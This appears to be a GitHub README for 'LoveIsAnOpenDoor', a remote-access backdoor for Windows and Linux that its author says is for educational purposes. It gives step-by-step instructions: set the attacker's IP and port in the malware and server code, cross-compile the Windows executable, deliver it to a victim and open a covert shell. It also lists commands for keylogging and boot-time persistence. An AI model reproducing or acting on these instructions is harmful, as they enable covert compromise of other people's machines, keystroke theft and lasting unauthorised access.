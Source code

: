 # LoveIsAnOpenDoor Malware (BackDoor)


## Getting Started
LoveIsAnOpenDoor is currently developing malware can be used in both Windows, Linux. It can be executed on both 32 and 64-bits systems. After it is executed, it creates connection between attacker and target machine and provides attacker to get control of target systems command line without knowledge of the victim.


### Prerequisites
Two machines; an attacker and a target.

### Installation
Note: You will only need .c files, other files will be recompiled for you attacker machine. 
So instead of downloading those file follow the following steps.
- Replace your attacker machine's IP address in LoveIsAnOpenDoor.c and Server.c 
For the Malware ;
```
ServIP = "ENTER ATTACKER MACHINE IP ADDRES SHERE" ; 
ServPort = 50005 ; 
```
For the Server;
```
server_address.sin_addr.s_addr = inet_addr("ENTER ATTACKER MACHINE IP ADDRES HERE");
server_address.sin_port = htons(50005);
```
- Install ming into you attacker device 
	```
	apt-get install mingw64 
	```
- Use following command to compile the Server
	```
	gcc Server.c -o Server 
	```
- Use following command to compile the exe file. 
	```
	i686-w64-mingw32-gcc -o LoveIsAnOpenDoor.exe LoveIsAnOpenDoor.c -lwsock32 -lwininet 
	```
- Send the compiled LoveIsAnOpenDoor.exe to target machine  (Already sent)
- Start Server by using 
	```
	./Server
	```
- Execute exe file in target machine.
- Check for if shell is opened in attacker machine.

## Basic Usage 
If shell is opened you can start executing codes in target machine on your backdoor.
Try whoami, ls etc commands.

	```
	whoami 
	netstat
	dir
	```
## Keylogging
Use following command to start keylogger in target system. It will create a file named windows in the desktop of the target device and holds each key pressed. Hence this software is only for educational purpose, those files are not hidden in the system.
```
start_keylog	
```
## Persistance
Gain persistance on the remote system by executing payload in boot time by using following command
```
persist
```
## Demonstration
Checkout the Demonstration.mp4, can be found in current repository. In demonstration, used Kali Linux machine as attacker and Flare as target machine to be able to examine the malware code in target machine.



## Authors

* **Özlem Körpe** - *Initial work* - [ozlemkorpe](https://github.com/ozlemkorpe)
